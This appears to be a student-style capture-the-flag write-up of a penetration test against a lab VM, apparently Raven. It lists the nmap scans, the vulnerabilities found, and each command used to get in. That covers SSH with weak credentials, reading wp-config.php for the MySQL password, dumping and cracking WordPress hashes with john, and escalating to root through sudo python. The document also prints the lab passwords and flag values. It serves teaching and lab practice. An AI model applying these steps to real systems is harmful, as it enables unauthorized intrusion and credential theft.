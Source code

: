 Table of Contents
* Exposed Services
* Critical Vulnerabilities
* Exploitation

**Exposed Services**

Nmap scan results for each machine reveal the below services and OS details:

    nmap -sn 192.168.1.0/24 to find Target 1 IP machine
          
    nmap -sV 192.168.1.110 to check open ports and services
  # 

**Critical Vulnerabilities**

This scan identifies the services below as potential points of entry:
Target 1
Port 22/TCP Open SSH
Port 80/TCP Open HTTP
Port 111/TCP Open RPCbind
Port 139/TCP Open Netbios-SSN
Port 445/TCP Open Netbios-SSN

The following vulnerabilities were identified on each target:
Target 1

* User Enumeration, Severity: Medium, CVE-2017-5487
* Weak User Password
* Mismanaged User privileges
* Unsalted Hash Password

**Exploitation**

The Red Team was able to penetrate Target 1 and retrieve the following confidential data:
Target 1
flag1.txt: {b9bbcb33e11b80be759c4e844862482d}
The exploit used to find flag one was file traversal.
1. ssh michael@192.168.1.110
2. password michael
3. cd /
4. cd var/www/html
5. ls
6. nano service.html 
7. Within service.html: Ctrl-w flag or cat service.html | grep flag

flag2.txt: {fc3fd58dcdad9ab23faca6e9a36e581c}
File traversal was used again to find flag2.
1. ssh michael@192.168.1.110
2. password michael
3. cd /
4. cd var/www
5. ls
6. cat flag2.txt

Finding the MySQL database password.
cat /var/www/html/wordpress/wp-config.php


Use the credentials to log into MySQL and dump WordPress user password hashes.
1. mysql -u root -p
2. R@v3nSecurity
3. show databases;
4. use wordpress;
5. show tables;
6. SELECT * FROM wp_users;

SELECT * FROM wp_user INTO OUTFILE ‘/home/michael/wp_hashes.txt’;
Dumps table to a .txt file./home

Nano the file and change it to a format john reads.	
Change user1 and 2 to Michael and steven.

SELECT * FROM wp_posts
Reading the other tables to get flags 3 and 4

Crack password hashes with john.

    john --wordlist=/usr/share/wordlists/rockyou.txt wp-hashes.txt 
    john --show hashed_passwords.txt

Secure a user shell as the user whose password you cracked.
* ssh steven@192.168.1.110
* pink84

Escalate to root. One flag can be discovered after this step.
* sudo -l
* sudo python -c 'import pty;pty.spawn("/bin/bash")'

locate flag

* cat /root/flag4.txt





